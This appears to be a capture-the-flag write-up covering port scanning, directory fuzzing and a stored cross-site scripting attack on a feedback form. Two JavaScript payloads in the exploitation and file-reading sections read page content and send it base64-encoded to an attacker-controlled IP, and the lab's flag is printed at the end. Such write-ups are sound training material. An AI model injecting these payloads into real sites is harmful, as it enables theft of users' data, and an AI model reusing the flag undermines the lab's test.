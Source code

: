```yaml
---
sticker: emoji//1f6cd-fe0f
---
```



# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | ssh     |
| 8080 |  http   |

We got two open ports, `ssh` and `http` on port `8080`, let's take a look at the website:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241202124915.png)

Let's check source code:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020241202124936.png)

Nothing useful, let's try to fuzz in order to find anything useful:



## FUZZING
---

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241202125736.png)

Found a `/view_feedbacK` directory, it has status code `401` which means we are not authorized to read it, so, we need to be able to perform some sort of privilege escalation to be able to read it.

# RECONNAISSANCE
---
if we take a look at the feedback, we are able to see the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241202130251.png)

seems like a simple feedback form, but I believe this is vulnerable to XSS, so, let's try to craft a payload to get the contents of the home page to check if it's either vulnerable or not.




# EXPLOITATION
---


As said, this will be our payload:

```js
<script>  
fetch("/", {method:'GET',mode:'no-cors',credentials:'same-origin'})  
.then(response => response.text())  
.then(text => {  
fetch('http://IP:80/' + btoa(text), {mode:'no-cors'});  
});  
</script>
```

```ad-note
#### Breakdown of the code:

- `fetch("/")`: Requests the home page's content.
- `btoa(text)`: Encodes the content in Base64 to safely transmit it.
- `fetch('http://your_ip:80')`: Sends the encoded data to your server.
```

Let's start a python server and check if it works:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241202130611.png)

After sending the payload, we receive the contents of the page we have requested, in this case, home page, if we try decoding that, we get the following:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020241202130742.png)


As shown, we successfully exploited [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/CROSS SITE SCRIPTING/CROSS SITE SCRIPTING (XSS).md|XSS]]and got the contents of the home page, right now, we can take other exploitations paths, such as trying to get a reverse shell and some other, to make this CTF simple, let's just use a payload that retrieves the contents of `http://10.10.133.79:8080/flag.txt`, since this is the file we want to read anyway.


# READING THE FILE
---


```js
<script>  
fetch("/flag.txt", {method:'GET',mode:'no-cors',credentials:'same-origin'})  
.then(response => response.text())  
.then(text => {  
fetch('http://10.6.34.159:9001/' + btoa(text), {mode:'no-cors'});  
});  
</script>
```

This payload does the same as the previous one, it just targets that `flag.txt` file, let's send it and get our base64 encoded flag:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241202131136.png)

Nice, let's decode:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241202131156.png)

We got the flag and finished the CTF, Gg!

```ad-hint

Flag: `THM{83789a69074f636f64a38879cfcabe8b62305ee6}`
```


